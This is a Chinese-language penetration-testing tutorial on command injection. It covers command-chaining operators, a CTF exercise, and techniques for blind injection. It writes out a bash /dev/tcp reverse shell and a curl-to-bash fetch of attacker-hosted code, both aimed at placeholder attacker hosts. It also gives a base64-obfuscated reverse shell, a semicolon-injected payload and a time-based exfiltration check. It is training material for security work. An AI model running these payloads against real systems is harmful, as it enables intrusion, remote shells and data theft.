








# 护网行动红蓝攻防教程：P53：05_联合执行

在本节课中，我们将要学习命令执行中的联合执行技术，并了解其在攻防实战中的应用，例如反弹Shell和无回显场景的处理方法。

## 概述

本节内容主要围绕命令执行的联合方式展开，包括分号、逻辑运算符、管道符等，并延伸讲解在无回显情况下如何通过反弹Shell或延时注入获取结果。这些是渗透测试和应急响应中的基础且关键的技能。

## 命令联合执行

上一节我们介绍了基本的命令执行，本节中我们来看看如何将多个命令组合在一起执行。

以下是几种常见的命令联合执行方式：

*   **分号 `;`**：这是最常用的无条件联合。无论前一个命令是否执行成功，分号后的命令都会继续执行。命令之间互不干扰。
    *   示例：`ping 127.0.0.1; ls -l`
*   **逻辑与 `&&`**：只有当前一个命令执行成功（返回值为0）时，后一个命令才会执行。
    *   示例：`mkdir test && cd test`
*   **逻辑或 `||`**：只有当前一个命令执行失败（返回值非0）时，后一个命令才会执行。
    *   示例：`cat /etc/passwd || echo "File not found"`
*   **管道符 `|`**：将前一个命令的输出作为后一个命令的输入。
    *   示例：`echo "abc" | md5sum`
*   **换行符**：在Shell中直接换行也相当于执行了多个命令，但并非在所有编程语言环境下都有效。

除了联合执行，还有内联执行（例如使用反引号`` `command` ``或`$(command)`），可以将命令的输出作为参数嵌入。

## 实战练习：基础命令执行



如果想进行简单的练习，可以尝试`ACTF2020`的`EXEC`题目（在BUU等平台上）。这是一道基础的命令执行题。





解题思路通常是向存在漏洞的参数输入类似`127.0.0.1; cat flag`的payload，利用分号执行额外的命令来读取flag。

## 反弹Shell技术



当遇到无回显的命令执行漏洞时，反弹Shell是一种有效的解决方案。

反弹Shell的核心是让目标服务器主动连接攻击者控制的监听端口，并提供一个交互式Shell。

一个典型的反弹Shell命令如下：
```bash
bash -i >& /dev/tcp/<攻击者IP>/<攻击者端口> 0>&1
```

**执行反弹Shell的常见方法：**

1.  **直接执行**：在存在漏洞的点直接输入上述命令。但可能因特殊字符被过滤而失败。
2.  **利用外部文件**：先将反弹Shell命令写入一个文本文件（如`shell.txt`），然后通过`curl`或`wget`下载并执行。
    *   示例：`curl http://<攻击者IP>/shell.txt | bash`
3.  **Base64编码**：将命令进行Base64编码以绕过过滤，然后在目标服务器上解码并执行。
    *   示例：`echo “YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNDUgMD4mMQ==” | base64 -d | bash`



此外，还可以使用PHP、Python等语言编写脚本进行反弹。



## 无回显场景的应对策略

无回显问题不仅存在于命令执行，也存在于SQL注入等场景。主要有两种解决思路：

1.  **外带数据 (OOB)**：让目标服务器将执行结果主动发送到攻击者控制的服务器。
    *   **命令执行**：使用`curl`、`wget`等命令将结果`GET`或`POST`到攻击者的Web服务器。
    *   **DNS带外**：利用DNS查询日志记录信息。
    *   **反弹Shell**：如上所述，直接获取一个交互式会话。
2.  **延时盲注**：如果目标无法出网（不能连接外部服务器），则只能采用盲注方式。通过构造条件命令，根据服务器的响应时间差异来判断命令执行结果。
    *   **示例逻辑**：`if [ $(cat /flag | cut -c 1) == ‘A’ ]; then sleep 5; fi`。如果flag的第一个字符是’A’，则命令会休眠5秒，通过观察响应时间即可推断。

## 总结





本节课中我们一起学习了命令联合执行的多种方式，包括`;`、`&&`、`||`和`|`的用法。接着，我们探讨了在无回显漏洞场景下，如何通过反弹Shell技术获取交互权限，并介绍了外带数据(OOB)和延时盲注两种核心的解决方案。这些技术是Web安全、渗透测试和应急响应中不可或缺的基础能力。